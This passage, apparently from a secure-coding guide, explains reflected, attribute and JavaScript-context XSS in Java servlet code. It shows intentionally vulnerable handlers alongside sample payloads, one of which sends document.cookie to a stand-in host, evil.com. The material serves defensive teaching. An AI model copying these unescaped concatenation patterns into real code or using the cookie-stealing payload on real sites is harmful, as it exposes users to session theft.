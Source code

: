 ## Common XSS Patterns

### Basic Reflection

The most straightforward XSS vulnerability occurs when user input is directly embedded into HTML without any encoding. This pattern is surprisingly common in legacy code or quick prototypes that never got properly secured.

```java
// VULNERABLE - Direct reflection
@GetMapping("/search")
public void search(HttpServletRequest request, HttpServletResponse response) 
        throws IOException {
    String query = request.getParameter("q");
    response.getWriter().write(
        "<html><body>Search results for: " + query + "</body></html>"
    );
}
// Attack: ?q=<script>document.location='http://evil.com?c='+document.cookie</script>
```

### Attribute Injection

HTML attributes present a special challenge because attackers can break out of the attribute context even when developers think they're being careful. Quotes alone won't save you—attackers know how to escape them.

```java
// VULNERABLE - Unquoted attributes
String color = request.getParameter("color");
response.getWriter().write("<div style=background:" + color + ">Content</div>");
// Attack: ?color=red%20onmouseover=alert(1)
// Result: <div style=background:red onmouseover=alert(1)>Content</div>

// VULNERABLE - Even with quotes
String title = request.getParameter("title");
response.getWriter().write("<div title='" + title + "'>Content</div>");
// Attack: ?title=x' onmouseover='alert(1)
```

### JavaScript Context

Embedding user data directly into JavaScript code is particularly dangerous because you're literally putting untrusted data into an execution context. The attacker's payload becomes part of your application's logic.

```java
// VULNERABLE - Data in JavaScript
String username = request.getParameter("user");
response.getWriter().write(
    "<script>var user = '" + username + "'; processUser(user);</script>"
);
// Attack: ?user=x'; alert(1); //
// Result: <script>var user = 'x'; alert(1); //'; processUser(user);</script>
```
